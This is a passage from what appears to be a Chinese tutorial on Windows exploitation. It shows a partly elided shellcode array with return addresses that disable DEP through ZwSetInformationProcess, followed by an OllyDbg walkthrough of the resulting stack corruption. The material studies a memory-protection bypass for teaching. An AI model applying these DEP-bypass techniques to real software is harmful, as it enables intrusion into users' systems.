 ```
char shellcode[]= 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
    "……" 
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90" 
    "\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址 
    "\x85\x8B\x1D\x5D" //修正 EBP 
    "\x24\xCD\x93\x7C" //关闭 DEP 代码的起始位置 
    ;
```

重新编译程序后用 OllyDbg 加载，在 0x7C95683B 处，即 CALL ZwSetInformationProcess 时下断点，待程序中断后观察堆栈情况。如图 12.3.8 所示，EBP-4 中的内容已经被冲刷掉，内容已经被修改为 0x22，根据_KEXECUTE_OPTIONS 结构我们知道 DEP 只和结构中的前 4 位有关，只要前 4 位为二进制代码为 0010 就可关闭 DEP，而 0x22（00100010）刚刚符合这个要求，所以用 0x22 冲刷掉 EBP-4 处的值还是可以关闭 DEP 的。 

<img src="images/09/EBP减4处被修改位0x22.png">


虽然现在我们已经关闭了 DEP，但是我们失去了进程的控制权。我们再来看看关闭 DEP 后程序返回时的堆栈情况：按 F8 键单步运行程序，在 0x7C93CD6F 处，即 RETN 4 处暂停， 观察堆栈情况。如图 12.3.9 所示，ESP 指向 0x0012FEBC，大家看这个 0x00000004 是不是很眼 熟？这就是关闭 DEP 时的 PUSH 4 操作的结果，这个位置也被冲刷了！现在有家回不去，所以 我们不能简单地在修正 EBP 后直接关闭 DEP，还需要对 ESP 或者 EBP 进行调整。 
